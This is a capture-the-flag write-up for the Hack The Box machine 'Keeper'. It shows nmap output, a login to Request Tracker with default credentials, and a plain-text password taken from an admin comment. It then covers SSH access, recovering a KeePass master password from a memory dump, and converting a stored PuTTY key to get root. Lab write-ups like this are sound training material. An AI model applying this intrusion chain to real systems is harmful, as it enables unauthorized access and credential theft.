










# Keeper

[Keeper](https://app.hackthebox.com/machines/Keeper) is an Easy machine which focuses on exploiting vulnerabilities in the KeePass password manager. The initial foothold method is also very interesting. So, let's begin!

## Enumeration

The first thing to do after getting the IP address would be run an `nmap` scan to see what ports are open on the machine (and parallely check if something is accessible on port 80/443).

```
$ nmap -n -Pn -sV 10.129.122.221
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 13:52 PDT
Nmap scan report for 10.129.122.221
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.82 seconds
```

When we access the IP address on port 80 via a browser, we can see there is just one link which redirects to `tickets.keeper.htb/rt`. But in order to do that we need to add this IP to our `/etc/hosts` file

```
10.129.122.221  tickets.keeper.htb
10.129.122.221  keeper.htb
```

Now, if we click on that link, it brings us to a login page as shown below.



We can't find any credentials on the source code of the page. So, we can try a copule of default credentails or even look up on the internet for the default creds for `Request Tracker`. We can find that the default credentails for this tool are `root:password`. So, we can try that and see we can gain access to the portal.



The credentials worked and we gained access to the portal. So, we can explore different options that are available there and see if we can upload a file somewhere (through which we can get a reverse shell) or do a command injection. 

## Initial Access

After spending some time around, we can find a `Users` tab under the `Admin` section and over there we can see that there is another user named `lnorgaard`. Now, as we have access to the portal as `root`, we can try to read this user's password or change it.



When we click on the user, it gives us all the details as shown below



The most interesting part is the comment section, where we can see the plain-text password for this user. Now that we have a pair of username and password, we can try to use them to gain SSH access to the machine.

```
$ ssh lnorgaard@10.129.122.221
lnorgaard@10.129.122.221's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ whoami
lnorgaard
lnorgaard@keeper:~$ pwd
/home/lnorgaard
lnorgaard@keeper:~$ cat user.txt
```

And there we get the user flag!

## Privilege Escalation

In order to escalate our privileges, we can start by looking at files are present in the user's directory.

```
lnorgaard@keeper:~$ ls -la
total 85384
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25 20:00 .
drwxr-xr-x 3 root      root          4096 May 24 16:09 ..
lrwxrwxrwx 1 root      root             9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24 16:09 .cache
-rw------- 1 lnorgaard lnorgaard      807 May 23 14:43 .profile
-rw-r--r-- 1 root      root      87391651 Aug 20 11:36 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24 10:25 .ssh
-rw-r----- 1 root      lnorgaard       33 Aug 20 01:00 user.txt
-rw-r--r-- 1 root      root            39 Jul 20 19:03 .vimrc
```

We can see there is a file called as `RT30000.zip`. We can copy it to our local machine by running the following command and then unzip it:

```
$ scp lnorgaard@10.129.122.221:~/RT30000.zip .
lnorgaard@10.129.122.221's password:
RT30000.zip                                                                         100%   83MB   8.1MB/s   00:10
$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp
 extracting: passcodes.kdbx
$ file *
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
passcodes.kdbx:      Keepass password database 2.x KDBX
RT30000.zip:         Zip archive data, at least v2.0 to extract, compression method=deflate
```

From the above output it can be seen that we have an application dump file and another Keepass database file. Based on the files that we have our approach should be to analyze the dump file to find the master password for the database and then unlock it.

With a quick google search we can find a [GitHub repository](https://github.com/vdohney/keepass-password-dumper) which can process the dump file and extract the master password from it.

*For the next part we need to switch to a windows machine as the tool requires .NET*

Once we install .NET and copy the dump file to the same directory, we are ready to run the tool with the command

```
PS> dotnet run .\KeePassDumpFull.dmp
```

And the result that we get is as shown below



The final result that we get from the tool is ` M}dgrød med fløde`. 

The next thing that we need to do is install KeePass and then open the `kdbx` file in it and when it asks for the password we can provide the one that we extracted.



It looks like what we extracted wasn't the extact password, maybe some of the characters did not get detected correctly. We can do a quick google of the same phrase and see if something pops up


After removing the weird characters, it looks like the actual term is related to a desert.

*Hint: Try the original dish name with changing the case of the characters*

Once you get the right password, you can see 2 pairs of credentials in the database file



The one we are interested in is the `root` user.

We can try to login with the password for the `root` user but it looks like that password is incorrect.

```
$ ssh root@10.129.127.105
root@10.129.127.105's password:
Permission denied, please try again.
```

But if we take a look at other the other stuff in the KeePass entry for `root` user, then we can find some more stuff in the Notes section



It looks like this is a PuTTY User Key. We need to figure out how this can be used to connect to the machine. With a quick google search for the term `Putty-User-Key-File-3`, we can find [this](https://superuser.com/questions/1647896/putty-key-format-too-new-when-using-ppk-file-for-putty-ssh-key-authentication) link which shows that this key file is generated with a tool called as `puttygen`. We can look into this tool and futher convert the PuTTY key back to a PEM key.

So, for this we need to first copy the entire Notes content to a new file `key.ppk` and then use it with `puttygen`.



Now that we have the key, all we need to do is just SSH into the machine



## Some Key Points to Take Away

1. Whenever you encounter a login page, think of default credentails.
2. Try to look for exploits for the applications that you find on the target machine that can help you escalate your privileges.

## References

1. [Keeper](https://app.hackthebox.com/machines/Keeper)
2. [KeePass Password Dumper](https://github.com/vdohney/keepass-password-dumper)